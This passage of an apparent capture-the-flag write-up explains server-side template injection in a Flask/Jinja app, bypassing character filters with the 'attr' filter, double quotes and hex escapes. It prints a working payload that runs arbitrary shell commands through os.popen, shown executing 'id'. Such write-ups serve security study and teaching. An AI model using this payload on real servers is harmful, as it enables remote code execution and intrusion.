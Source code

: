 3. setting input as `{{g}}` will results in: `<flask.g of 'app;>` (I'm new to flask and even python but I think this is global object of application.)


## Idea
**Use Jinja filters:** Jinja like other Templete Engines have [filters][jinjaFilters] Some of them should be enabled explicitly by developer and some of them are enabled by default(Which are called [built-in filters][jinjaFilters]).

Since `.` character is filtered, we couldn't access the property of an object but we can use `attr` filter to bypass this filtering.

Since `'` character is filtered, we can use `"` insteadly to bypass it. As far as I know in any scripting language(which python is one of them) the `'` and `"` are same but in compiler languages, `'` is used to determine characters and `"` is used to determine strings.

We need to use `_` character to access some specific properties but underline character is filtered and we couldn't simply type it! Instead since the server is based on python we can pass its hexadecimal value such as `\x5f` to bypass this filtering.  
This paragraph gives us a global solution to bypass every filtering: If a character/word is filtered then, thanks to python, you can pass its hexadecimal equivalent to bypass it:)  
You can use [this website][charToHex] to do these conversions.

## Build Payload

The *[flask][mainFlask]* has a global *[request][requestFlask]* object.

From request we can get access to *[application][flaskApplication]* object. Then we can use python to open a shell and execute any process and finally get the results.  
To avoid overloaded function we start from \_\_global\_\_ variable and go down.


    
>`__globals__`: All modules in the current location will be returned as dictionary type , Methods and global variables , Used for coordination init Use 

After all, to execute any shell command, we can use following payload:
```
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("SHELL COMMAND")|attr("read")()}}
```

## Exploits
To execute: `{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}` we search below expression:

```
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("id")|attr("read")()}}
```

Since we get meaningful results back, we can conclude that we can execute other shell commands too.

## Access File System
Using same way we can access file system:  


[jinjaFilters]: https://jinja.palletsprojects.com/en/2.10.x/templates/#list-of-builtin-filters
[mainFlask]: https://flask.palletsprojects.com/en/2.0.x/
[requestFlask]: https://flask.palletsprojects.com/en/2.0.x/api/#flask.request
[flaskApplication]: https://flask.palletsprojects.com/en/2.0.x/api/#flask.Request.application
[charToHex]: https://www.rapidtables.com/convert/number/ascii-to-hex.html
[dumpPart2]: ./part1/dumpPart2/
[code]: ./part2/app.js
[expressURLE]: https://expressjs.com/en/api.html#express.urlencoded
[qs]: https://www.npmjs.com/package/qs#readme
[prototypePollution]: https://www.neuralegion.com/blog/prototype-pollution/
[npmmysql]: https://www.npmjs.com/package/mysql
[npmmysqlescape]: https://www.npmjs.com/package/mysql#escaping-query-values
[mySQLBool]: https://www.mysqltutorial.org/mysql-boolean/
[mySQLChainedComp]: https://stackoverflow.com/q/28952960/10813146
[mySQLConversion]: https://dev.mysql.com/doc/refman/8.0/en/type-conversion.html
[shellScript]: ./part1/exploit.sh
[shellScript2]: ./part2/exploit.sh
[record]: https://mega.nz/file/dlUiBLjJ#TgLrkoDU1UU6GLUusC8uSneww1ynFGkmHd3rvIiysGc